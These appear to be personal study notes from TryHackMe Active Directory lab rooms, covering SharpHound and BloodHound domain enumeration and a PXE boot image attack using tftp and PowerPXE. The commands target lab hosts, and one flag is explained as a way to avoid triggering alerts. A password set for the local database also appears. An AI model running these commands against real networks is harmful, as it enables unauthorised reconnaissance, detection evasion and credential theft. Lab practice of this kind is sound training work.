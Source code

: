  Enumeration through Bloodhound
Sharphound.exe --CollectionMethods <Methods> --Domain za.tryhackme.com –ExcludeDCs
SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs
CollectionMethods - Determines what kind of data Sharphound would collect. The most common options are Default or All. Also, since Sharphound caches information, once the first run has been completed, you can only use the Session collection method to retrieve new user sessions to speed up the process.
Domain - Here, we specify the domain we want to enumerate. In some instances, you may want to enumerate a parent or other domain that has trust with your existing domain. You can tell Sharphound which domain should be enumerated by altering this parameter.
ExcludeDCs -This will instruct Sharphound not to touch domain controllers, which reduces the likelihood that the Sharphound run will raise an alert.

copy C:\Tools\Sharphound.exe ~\Documents\
cd ~\Documents\
SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com –ExcludeDCs
| ./sharphound.exe --CollectionMethods All --Domain za.tryhackme.com –ExcludeDCs |


Install Bloodhound
neo4j console == start the database that Bloodhound use
other terminal == bloodhound --no-sandbox
The default credentials for the neo4j database will be neo4j:neo4j
User: neo4j
Newpass: naqib

 recover the ZIP file from the Windows host. The simplest way is to use SCP command on your AttackBox:
scp <AD Username>@THMJMP1.za.tryhackme.com:C:/Users/<AD Username>/Documents/<Sharphound ZIP> .




=================================================================================

BAD

Alt+f2 > nm-connection-editor > IP Setting == DNS conf
 

x64{2B4FCD77-2F71-4737-BDD4-01E2786947BD}.bcd
10.200.4.202
x64{A7D42DD3-0543-4B9D-849A-77C76EA21F04}.bcd
x64{0D6F4540-AC60-4DB6-8E0C-52B3198A622F}.bcd
 
tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd

Powerpxe is a PowerShell script that automatically performs this type of attack 
use the Get-WimFile function of powerpxe to recover the locations of the PXE Boot images from the BCD file
powershell -executionpolicy bypass Windows PowerShell
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile

WIM files are bootable images in the Windows Imaging Format (WIM). 
download this image:
tftp -i 10.200.4.202 GET " \Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim
